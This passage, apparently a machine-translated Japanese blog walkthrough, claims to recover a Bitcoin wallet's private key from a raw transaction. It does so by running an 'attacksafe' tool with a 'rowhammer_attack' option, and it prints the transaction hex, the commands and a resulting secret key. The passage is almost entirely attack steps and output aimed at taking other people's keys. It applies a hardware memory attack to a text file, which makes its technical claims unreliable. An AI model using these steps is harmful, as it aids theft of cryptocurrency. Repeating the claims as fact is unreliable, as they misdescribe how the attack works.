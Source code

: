 
<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-123-1024x631.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1197"/></figure>



<p>次に選択します<code>&nbsp;-tool: rowhammer_attack</code></p>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-125-1024x275.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1200"/></figure>



<p>この攻撃は から開始され<code>-tool rowhammer_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-126-1024x493.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1203"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x6251240a6cb656310dbd7f0da53a315ab88ec253352a5d5481ee08e977b6ef2d

RawTX = 0100000001cb9a792b88760ad20c67047c06d016ba4a069d036c4fbc5c09a8055fe786580f300000006a4730440220331353fedfd6e4d6805fc1f06443ade552a43a43237fb6c3de3c7f0969b4cc6702200bfec7e7d2ae249b3d69cd8d666b5ee833394af3b0703fa023579200d9ab2ff401210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff013a020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>
